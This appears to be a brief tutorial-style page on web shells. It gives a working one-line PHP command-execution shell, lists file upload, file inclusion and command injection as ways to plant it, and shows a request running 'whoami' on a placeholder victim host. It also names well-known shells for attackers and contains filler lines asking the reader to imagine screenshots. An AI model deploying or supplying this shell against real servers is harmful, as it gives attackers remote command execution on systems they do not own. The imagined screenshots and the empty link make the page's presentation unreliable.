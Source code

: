 # Web Shell Overview

A web shell is a malicious script written in a language supported by a compromised web server, allowing attackers to execute commands and manipulate files through the web server itself. Web shells can be discreetly hidden within vulnerable web applications or services, making them challenging to detect. They are particularly popular among attackers due to their versatility and ease of use.

Web shells can be developed in various languages, including PHP, ASP, JSP, and CGI scripts.

## Example of a PHP Web Shell

Here's a simple example of a PHP web shell:

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

In this example, the script checks if the `cmd` parameter is set in the URL query string. If it is, it executes the command using the `system()` function.

## Deployment

This script can be saved as `shell.php` and uploaded to a compromised web server through various means, such as:

- Unrestricted File Upload
- File Inclusion
- Command Injection
- Unauthorized Access

## Accessing the Web Shell

Once deployed, the web shell can be accessed via the following URL:

```bash
http://victim.com/uploads/shell.php?cmd=whoami
```

This request would execute the `whoami` command on the server, returning the result in the web browser.

## Popular Web Shells Available Online

Several web shells have gained popularity due to their functionalities and stealth capabilities. Here are some notable examples:

### p0wny-shell

A minimalistic, single-file PHP web shell that provides remote command execution capabilities.

*(Imagine a screenshot showing commands being executed in a GUI resembling a terminal.)*

### b374k shell

A feature-rich PHP web shell with capabilities for file management and command execution.

*(Imagine a screenshot showcasing the file manager feature for manipulating files.)*

### c99 shell

A well-known and robust PHP web shell with extensive functionalities for attackers.

*(Imagine a screenshot displaying both command execution and file manipulation features.)*

## Additional Resources

More web shells can be found online, with various functionalities to suit different malicious needs. For further exploration, you can visit: [R57 Shell](#).